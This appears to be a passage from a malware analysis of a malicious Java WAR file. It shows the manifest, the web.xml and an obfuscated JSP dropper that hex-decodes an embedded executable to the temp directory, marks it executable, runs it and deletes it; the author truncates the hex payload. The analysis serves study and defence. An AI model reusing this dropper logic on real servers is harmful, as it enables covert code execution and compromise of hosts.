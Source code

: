 

    Manifest-Version: 1.0
    Created-By: 1.6.0_17 (Sun Microsystems Inc.)



The `WEB-INF/web.xml` file is quite simple in this case, just
identifying the jsp by name, and the servlet name:



    <?xml version="1.0"?>
    <!DOCTYPE web-app PUBLIC
    "-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN"
    "http://java.sun.com/dtd/web-app_2_3.dtd">
    <web-app>
    <servlet>
    <servlet-name>gqsrnqtizzhn</servlet-name>
    <jsp-file>/ppaejmsg.jsp</jsp-file>
    </servlet>
    </web-app>



The meat of the code is in `ppaejmsg.jsp` (with long hex string
truncated by me for readability):



     1 <%@ page import="java.io.*" %>
     2 <%
     3   String tjSRohYSIVTEYgR = "4d5a90000300000004000000ffff...";
     4   String pkALAjcf = System.getProperty("java.io.tmpdir") + "/lcmWDJSTuqXlU";
     5
     6   if (System.getProperty("os.name").toLowerCase().indexOf("windows") != -1) {
     7     pkALAjcf = pkALAjcf.concat(".exe");
     8   }
     9
    10   int ODEsMJtiDkS = tjSRohYSIVTEYgR.length();
    11   byte[] YHxXvQEcNvT = new byte[ODEsMJtiDkS/2];
    12   for (int PEQXASgLslZXAoO = 0; PEQXASgLslZXAoO < ODEsMJtiDkS; PEQXASgLslZXAoO += 2) {
    13     YHxXvQEcNvT[PEQXASgLslZXAoO / 2] = (byte) ((Character.digit(tjSRohYSIVTEYgR.charAt(PEQXASgLslZXAoO), 16) << 4)
    14                                               + Character.digit(tjSRohYSIVTEYgR.charAt(PEQXASgLslZXAoO+1), 16));
    15   }
    16
    17   FileOutputStream BYhXIhapBQqShGa = new FileOutputStream(pkALAjcf);
    18   BYhXIhapBQqShGa.write(YHxXvQEcNvT);
    19   BYhXIhapBQqShGa.flush();
    20   BYhXIhapBQqShGa.close();
    21
    22   if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1){
    23     String[] NYqDzjSRU = new String[3];
    24     NYqDzjSRU[0] = "chmod";
    25     NYqDzjSRU[1] = "+x";
    26     NYqDzjSRU[2] = pkALAjcf;
    27     Process DrcLxlRyPVhwV = Runtime.getRuntime().exec(NYqDzjSRU);
    28     if (DrcLxlRyPVhwV.waitFor() == 0) {
    29       DrcLxlRyPVhwV = Runtime.getRuntime().exec(pkALAjcf);
    30     }
    31
    32     File sGOssUgzJ = new File(pkALAjcf); sGOssUgzJ.delete();
    33   } else {
    34     String[] hxaporcZNI = new String[1];
    35     hxaporcZNI[0] = pkALAjcf;
    36     Process DrcLxlRyPVhwV = Runtime.getRuntime().exec(hxaporcZNI);
    37   }
    38 %>